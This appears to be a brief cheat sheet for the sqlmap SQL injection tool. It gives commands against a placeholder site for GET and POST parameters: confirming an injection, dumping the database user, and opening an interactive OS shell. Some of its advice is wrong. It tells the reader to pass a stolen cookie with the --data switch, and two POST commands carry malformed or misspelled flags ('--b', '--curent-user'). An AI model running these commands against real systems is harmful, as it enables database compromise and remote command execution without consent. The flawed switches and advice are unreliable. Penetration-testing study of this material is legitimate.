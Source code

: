# [SQLmap](https://sqlmap.org/)

* Some Hints & Tricks
* GET Parameter Example
* POST Parameter Example

## Some Hints & Tricks

* You might need to define which type of database to atttack. Try to set `--dbms=[database type]`.
* If you need to test an authenticated SQL injection finding, log into the website via a browser and grab the Cookie. Then define the cookie using the `--data=[cookie]` switch.
* Stuck? Try the command: `sqlmap --wizard`.

## GET parameter example

* Finding if an SQL inject is valid (the result will be the banner if valid): `sqlmap -u "http://site.com/info.php?user=test&pass=test" -b`.
* Retrieving the database username: `sqlmap -u "http://site.com/info.php?user=test&pass=test" --current-user`.
* Interactive Shell: `sqlmap -u "http://site.com/info.php?user=test&pass=test" --os-shell`.

## POST parameter example

Instead of being in the URL as with GET injections, the POST parameters are passed in the data section.

This is normally seen with username and passwords as the web servers generally log GET parameters and you wouldn't want the webserver tyo log passwords. Also, there are size limitations with GET methods and therefore a lot of data will be passed via POST parameters for larger applications.

* Finding if an SQL inject is valid (the result will be the banner if valid): `sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --b`.
* Retrieving the database username: `sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --curent-user`.
* Interactive shell: `sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --os-shell`.
